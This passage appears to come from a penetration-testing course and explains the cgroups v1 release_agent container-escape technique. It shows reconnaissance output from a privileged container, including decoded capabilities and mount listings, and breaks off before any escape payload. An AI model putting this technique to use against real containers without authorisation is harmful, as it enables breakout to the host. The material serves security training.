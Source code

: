 It's important to note that this exploit only works when the host is using cgroups v1 and not v2. Cgroups v2 replaced the notification mechanism and no longer executes a process when the last cgroup is populated. Instead, the **cgroup.events** file contains a variable named _populated_, which is set to "1" when the cgroup is populated with a process and "0" when the cgroup contains no process. However, just because a system's default is cgroups v2 does not mean that it can't also use cgroup v1. It's important to always check if a cgroup v1 file system can be mounted.

When a container has permissions to _write_ to the **/sys** file system or the ability to _mount_ a new cgroup file system, we can control both the **notify_on_release** and **release_agent** file. We can also add processes to a cgroup by adding the process ID(PID) to the **cgroup.procs** file also found in the cgroup folder.

We'll start by connecting to the target and gathering information. Again, we'll list the capabilities by reading **/proc/1/status** and using **capsh --decode** to decode the value.

```
victim_release_agent:~# cat /proc/1/status | grep Cap
CapInh: 0000000000000000
CapPrm: 0000003fffffffff
CapEff: 0000003fffffffff
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

victim_release_agent:~# capsh --decode=0000003fffffffff
0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
```

> Listing 48 - Getting Capabilities

The capabilities found in this container is a long list. This is usually an indication that the container is running with the _privileged_ flag.

Next, we'll list the mounts on the container by running **mount**.

```
victim_release_agent:~# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/KLARIHE4NADQPDWGVMHZ2RVJDE:/var/lib/docker/overlay2/l/CT5UBZSLVUJHPUNHM7BNKWQMSR:/var/lib/docker/overlay2/l/NHCEII4ZJM7C7TFQD3N4I3O4RL:/var/lib/docker/overlay2/l/UIY73XJZOTQIGEAF2EXAOU4KG7,upperdir=/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff,workdir=/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755,inode64)
systemd on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,name=systemd)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/misc type cgroup (rw,nosuid,nodev,noexec,relatime,misc)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/rdma type cgroup (rw,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k,inode64)
```